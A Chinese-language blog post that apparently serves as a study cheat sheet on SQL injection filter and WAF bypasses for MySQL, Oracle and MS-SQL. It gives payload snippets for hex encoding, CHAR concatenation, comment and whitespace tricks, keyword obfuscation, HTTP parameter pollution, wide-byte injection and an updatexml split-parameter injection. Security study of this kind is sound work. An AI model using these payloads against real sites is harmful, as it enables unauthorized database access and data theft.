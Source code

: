 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

### mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
查找有用的列名  
	where column_name LIKE ‘%PASS%’
遇到单引号转译，可以考虑使用16进制绕过
    table_name=’users ’——》table_name=0×757365727 
避开过滤
	输入单引号没反应，尝试“
单引号被阻止：
1、where name=‘Marcus’ 可以使用ascii 替代字符串不必使用单引号 ‘a’->CHR(97)
2、在mysql中连接字符串是CONCAT函数，select name=concat(CHAR(97),char(114))
	oracle中 select name=chr(97)||chr(114)
	Ms-SQL中 select name=char(97)+char(114)

--注释符被阻止时考虑闭合：
     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a 
单纯的闭合
    ‘ playload and '
=号 被禁止：
    使用<>（不等于）例：!(table_schema<>database())
关键字过滤：
  select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54
                                    se%a0 lect来绕过waf
  空格过滤：
    1、使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    2、在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
    3、 %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true

在url中使用--注释时，可能会需要使用--+才能成功注释

and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：
    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)：
    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1
这个构造语句把中间的password参数给注释掉了
